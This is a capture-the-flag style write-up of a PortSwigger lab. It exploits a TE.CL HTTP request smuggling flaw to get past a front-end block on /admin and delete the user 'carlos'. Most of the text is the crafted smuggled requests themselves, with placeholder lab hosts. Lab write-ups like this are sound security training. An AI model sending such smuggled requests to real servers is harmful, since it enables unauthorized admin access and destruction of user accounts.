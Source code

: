 # Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl) involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

## Reproduction and proof of concept

1. Try to visit ``/admin`` and observe that the request is blocked.
2. In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
3. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

4. Observe that the merged request to ``/admin`` was rejected due to not using the header ``Host: localhost``.
5. Issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

6. Observe that you can now access the admin panel.
7. Using the previous response as a reference, change the smuggled request URL to delete the user ``carlos``:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

## Exploitability

An attacker will need to smuggle HTTP requests to access the ``/admin`` page, then delete a user.
